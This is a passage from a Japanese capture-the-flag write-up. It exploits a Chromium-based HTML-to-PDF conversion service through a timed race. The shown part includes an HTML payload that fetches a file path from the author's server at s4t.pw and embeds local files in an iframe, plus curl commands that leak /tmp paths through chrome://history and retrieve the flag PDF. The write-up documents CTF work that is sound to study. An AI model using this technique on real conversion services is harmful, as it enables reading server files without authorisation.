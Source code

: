 ```python
    app.run(host="0.0.0.0", port=80)
```
③  
`waitDelay=15s`とし、②のリクエストとほぼ同時に送信する(実際には`sleep 1`でリクエストを少し遅らせる必要がある)。  
以下のようにsato2.htmlでは`http://s4t.pw`を`fetch`し、そこに書かれていた`file:///tmp/UUID(1)/UUID(2)/index.html`を`iframe`として埋め込む。  
15秒待つのは、②が終わり次第④がすぐに処理されるのを防ぐためと、s4t.pwへ`UUID(2)`を登録する時間を稼ぐためである。  
```html
<html lang="en">
<head>
    <title>Satoki-2</title>
</head>
<body>
    <script>
        setTimeout(() => {
            fetch("http://s4t.pw")
                .then(response => response.text())
                .then(url => {
                    const iframe = document.createElement('iframe');
                    iframe.width = 1000;
                    iframe.height = 300;
                    iframe.src = url;
                    document.body.appendChild(iframe);
                })
                .catch(error => {
                });
        }, 12000);
    </script>
</body>
</html>
```
④  
5sごとにentrypoint.shから送信されるindex.htmlをpdfへ変換するリクエストで、これを取得することを目指す。  

複数の処理を待機させることで、レスポンス後に再度読み取りたいファイル名を指定している。  
以下のように実際のインスタンスに行う。  
初めに`UUID(1)`を取得する。  
```bash
$ curl -s 'https://8c2143fb2da8a3617033a8537b76cd0e-44296.inst1.chal-kalmarc.tf/forms/chromium/convert/url' --form 'url=chrome://history/' -o - | strings | grep file
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/e8bb1c73-cfc4-40f4-bb10-82e8f2c2b262/index.html)>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/494ba597-0b2f-4676-b2a5-a33cf5ae9539/index.html)>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/0fbe4c3d-4b3d-4882-8350-212a12371622/index.html)>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/8b1633cb-1c6e-4d0d-a28d-f6fafe377d4a/index.html)>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/3c1a4383-7b1c-4cec-879d-14541337efd5/index.html)>>
```
`UUID(1)`が`bc079f55-f1ac-4228-8d60-ce4b4ff93396`とわかった。  
sato1.htmlおよびサーバs4t.pwのapp.pyに`UUID(1)`を追記する。  
次にサーバで`vim app.py; sudo python3 app.py`のように`UUID(2)`の書き込み後すぐにスクリプトを実行できるように待機する。  
そして以下のようにリクエストを送信する。  
```bash
$ (curl -s https://8c2143fb2da8a3617033a8537b76cd0e-44296.inst1.chal-kalmarc.tf/forms/chromium/convert/html --form 'file=@sato1.html;filename=index.html' --form waitDelay=6s -o ./sato1.pdf; strings sato1.pdf | grep file) & (sleep 1; curl -s https://8c2143fb2da8a3617033a8537b76cd0e-44296.inst1.chal-kalmarc.tf/forms/chromium/convert/html --form 'file=@sato2.html;filename=index.html' --form waitDelay=15s -o ./flag.pdf)
[1] 37509
/URI (file:///tmp/)>>>>
/URI (file:///tmp/bc079f55-f1ac-4228-8d60-ce4b4ff93396/79655863-f405-4b90-bf96-33c65f3740fe/)>>>>
```